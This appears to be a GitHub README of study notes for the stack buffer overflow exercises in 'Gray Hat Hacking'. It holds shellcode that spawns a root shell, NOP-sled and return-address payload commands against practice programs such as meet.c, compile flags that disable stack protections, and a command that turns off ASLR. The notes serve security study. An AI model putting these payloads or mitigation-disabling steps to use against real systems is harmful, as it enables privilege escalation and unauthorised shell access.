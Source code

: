 Grayshell
=========

Some basic shell code, when I learn &lt;Gray Hat Hacking>


#How to run 

##Example1 : Buffer_overflow
//notice we start out at user privileges "$"

```
gcc overflow.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -o overflow
``` 

```
$gdb -g overflow 
(gdb) run
(gdb) info req eip
(gdb) q
```

##Example2 : Meet.c

//notice we start out at user privileges "$"

```
gcc meet.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o meet
``` 
//notice the difference between ` and '

```
perl -e 'print "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";' > sc
```
### The point is to calculate the number of NOP!!
```
./meet Mr `perl -e 'print "A" x 600'`
```
```
ESP: 0xbffffc48

0xbffffc48 - 0x300 = 0xbffff948

perl -e 'print "\x48\xf9\xff\xff"x38'

```
```
./meet Mr `perl -e 'print "\x90"x203';``cat sc``perl -e 'print "\x48\xf9\xff\xff"x38';`
```
```
0xbffff8d8
perl -e 'print "\xd8\xf8\xff\xff"x38'

./meet Mr `perl -e 'print "\x90"x203';``cat sc``perl -e 'print "\xd8\xf8\xff\xbf"x38';`

```
### v 0.3
```
:0xbffffbe8
```





##Example3 : Shellcode.c
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o shellcode shellcode.c
```
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

##Example4 : Repeat return address

```
gcc -o get_sp get_sp.c
```

### forbidden ASLR
```
echo "0" > /proc/sys/kernel/randomize_va_space 

ESP: 0xbffffc48


``` 

##Example5 : exploit.c
###general code
```

./exploit 600
```

##Example6 : smallbuff
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o smallbuff smallbuff.c
```
```
gcc exploit2.c -o exploit2
./exploit2
```

## peercast 
```
http://peercast.sourcearchive.com/downloads/0.1214.toots.svn20051112/
```
##Example7 
